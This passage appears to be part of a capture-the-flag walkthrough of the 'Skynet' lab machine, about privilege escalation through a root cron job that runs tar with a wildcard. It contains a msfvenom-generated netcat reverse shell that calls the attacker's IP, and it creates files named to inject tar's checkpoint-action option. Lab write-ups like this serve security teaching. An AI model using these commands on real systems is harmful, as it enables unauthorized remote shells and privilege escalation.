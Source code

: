 What gave me results was enumerating the cron jobs.

![12]

We can see that there is a scheduled task that runs the backup.sh script every minute.

Looking at the contents of that file, we can see that the backup is performed with the following command line:

```
www-data@skynet:/$ cat /home/milesdyson/backups/backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *

```

It came to my mind a hacking articles cheatsheet where they talked about something similar, I found the following page while searching, which I'll leave here because it's very useful.

The wildcard is a character or set of characters that can be used as a replacement for some range/class of characters. Wildcards are interpreted by the shell before any other action is taken.

**Some Wildcards character:**

*****     An asterisk matches any number of character in a filename, including none.

 **?**     The question mark matches any single character.

- **[ ]**   Brackets enclose a set of characters, any one of which may match a single character at that position.

 -  A hyphen used within [ ] denotes a range of characters.

 - A tilde at the beginning of a word expands to the name of your home directory. Append another user’s login name to the character, it refers to that user’s home directory.

I recommend taking a look at the entire page. What was useful to me for solving the machine was the first method

Using msfvenom, we're going to generate a payload that is a reverse_netcat to be placed inside a file on the victim machine

```
┌──(kali㉿kali)-[~/Documents/THM/Skynet/content]
└─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.14.49.189 lport=8888 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 90 bytes
mkfifo /tmp/drye; nc 10.14.49.189 8888 0</tmp/drye | /bin/sh >/tmp/drye 2>&1; rm /tmp/drye

```

Creating the file in the victim's machine and making the other stuff to make the technique successfull

```
echo "mkfifo /tmp/drye; nc 10.14.49.189 8888 0</tmp/drye | /bin/sh >/tmp/drye 2>&1; rm /tmp/drye" >> shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh" 
echo "" > --checkpoint=1 
tar cf archive.tar *

```
